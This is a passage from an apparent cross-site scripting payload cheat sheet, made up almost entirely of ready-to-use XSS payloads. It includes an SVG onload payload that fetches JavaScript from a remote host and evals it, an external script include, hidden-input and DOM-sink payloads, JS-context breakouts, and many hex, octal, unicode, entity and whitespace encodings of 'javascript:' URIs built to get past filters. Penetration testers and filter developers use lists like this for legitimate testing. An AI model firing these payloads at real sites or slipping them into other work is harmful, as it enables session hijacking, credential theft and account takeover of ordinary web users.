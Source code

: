 ### XSS using a remote JS

```html
<svg/onload='fetch("//host/a").then(r=>r.text().then(t=>eval(t)))'>
<script src=14.rs>
// you can also specify an arbitrary payload with 14.rs/#payload
e.g: 14.rs/#alert(document.domain)
```

### XSS in hidden input

```javascript
<input type="hidden" accesskey="X" onclick="alert(1)">
Use CTRL+SHIFT+X to trigger the onclick event
```

### XSS when payload is reflected capitalized

```javascript
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```

### DOM based XSS

Based on a DOM XSS sink.

```javascript
#"><img src=/ onerror=alert(2)>
```

### XSS in JS Context

```javascript
-(confirm)(document.domain)//
; alert(1);//
// (payload without quote/double quote from [@brutelogic](https://twitter.com/brutelogic)
```

## XSS in wrappers javascript and data URI

XSS with javascript:

```javascript
javascript:prompt(1)

%26%23106%26%2397%26%23118%26%2397%26%23115%26%2399%26%23114%26%23105%26%23112%26%23116%26%2358%26%2399%26%23111%26%23110%26%23102%26%23105%26%23114%26%23109%26%2340%26%2349%26%2341

&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#99&#111&#110&#102&#105&#114&#109&#40&#49&#41

We can encode the "javascript:" in Hex/Octal
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
\152\141\166\141\163\143\162\151\160\164\072alert(1)

We can use a 'newline character'
java%0ascript:alert(1)   - LF (\n)
java%09script:alert(1)   - Horizontal tab (\t)
java%0dscript:alert(1)   - CR (\r)

Using the escape character
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)

Using the newline and a comment //
javascript://%0Aalert(1)
javascript://anything%0D%0A%0D%0Awindow.alert(1)
```
